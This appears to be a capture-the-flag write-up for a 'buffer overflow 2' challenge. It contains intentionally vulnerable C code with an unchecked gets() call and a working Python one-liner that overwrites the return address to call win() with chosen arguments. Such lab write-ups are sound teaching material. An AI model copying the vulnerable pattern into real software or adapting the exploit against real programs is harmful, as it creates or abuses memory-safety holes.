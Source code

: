 buffer overflow 2 - Points: 250
===========

## Description

>Alright, this time you'll need to control some arguments. Can you get the flag from this program? 

## Hint:

> * Try using gdb to print out the stack once you write to it!

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> *   gets(buf);


## Exploit


**Making an error by overflowing the buf[BUFSIZE] and overwrite EIP with the win function and 2 parameters:**

Input : "A"*112+WIN_ADR+RET_ADR+ARG_1+ARG_2
> python -c 'print "A"*112+"\xcb\x85\x04\x08XXXX\xef\xbe\xad\xde\xde\xc0\xad\xde"'|./bf2      


